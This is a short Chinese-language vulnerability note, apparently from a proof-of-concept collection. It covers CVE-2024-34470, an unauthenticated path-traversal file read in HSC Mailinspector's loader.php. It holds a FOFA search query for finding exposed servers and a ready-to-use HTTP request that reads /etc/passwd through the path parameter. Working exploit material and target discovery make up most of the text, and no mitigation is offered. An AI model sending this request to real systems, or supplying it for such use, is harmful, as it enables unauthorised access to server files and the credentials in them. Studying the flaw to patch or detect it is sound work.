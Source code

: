 ## HSC-Mailinspector-loader.php存在任意文件读取漏洞(CVE-2024-34470)

HSC Mailinspector是一款远程电子邮件检查工具，支持POP3/IMAP4协议。它允许用户远程扫描最新邮件，并进行浏览、垃圾邮件排除、编辑、删除等操作，无需实际登录邮箱。由于HSC Mailinspector的/public/loader.php文件存在的路径遍历漏洞，path参数无法正确筛选传递的文件和目录是否为webroot的一部分，从而使未经身份验证的攻击者能够读取服务器上的任意文件。

## fofa

```
body="mailinspector/public"
```

## poc

```
GET /mailinspector/public/loader.php?path=../../../../../../../etc/passwd HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
```

![图片](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202406041239536.webp)